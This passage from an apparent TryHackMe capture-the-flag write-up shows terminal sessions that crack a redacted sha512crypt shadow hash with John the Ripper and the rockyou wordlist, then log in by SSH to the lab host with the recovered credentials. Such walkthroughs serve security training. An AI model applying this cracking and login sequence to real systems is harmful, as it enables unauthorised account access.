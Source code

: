 ```
┌──(kali㉿kali)-[~/TryHackMe/TokyoGhoul]
└─$ nano creds.txt

┌──(kali㉿kali)-[~/TryHackMe/TokyoGhoul]
└─$ cat creds.txt
[REDACTED]:$6$Tb/euwmK$OXA.[REDACTED]..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:

┌──(kali㉿kali)-[~/TryHackMe/TokyoGhoul]
└─$ john -w=~/Wordlists/rockyou.txt creds.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]      ([REDACTED])
1g 0:00:00:00 DONE (2023-08-30 14:17) 1.851g/s 2844p/s 2844c/s 2844C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Task 5: Fight Jason

I’ve gone so far! It’s only a few steps left to defeat the Jason. Let’s use the previous creds to access the target system through **SSH**:

```
┌──(kali㉿kali)-[~/TryHackMe/TokyoGhoul]
└─$ ssh [REDACTED]@tokyoghoul.thm
The authenticity of host 'tokyoghoul.thm (10.10.185.245)' can't be established.
ED25519 key fingerprint is SHA256:oo//h4aM0BBJSlV7s7eejBvC/3yzDDk/PL7KIK6mewQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'tokyoghoul.thm' (ED25519) to the list of known hosts.
[REDACTED]@tokyoghoul.thm's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-197-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sat Jan 23 22:29:38 2021 from 192.168.77.1
[REDACTED]@vagrant:~$ id
uid=1001([REDACTED]) gid=1001([REDACTED]) groups=1001([REDACTED])
[REDACTED]@vagrant:~$
```
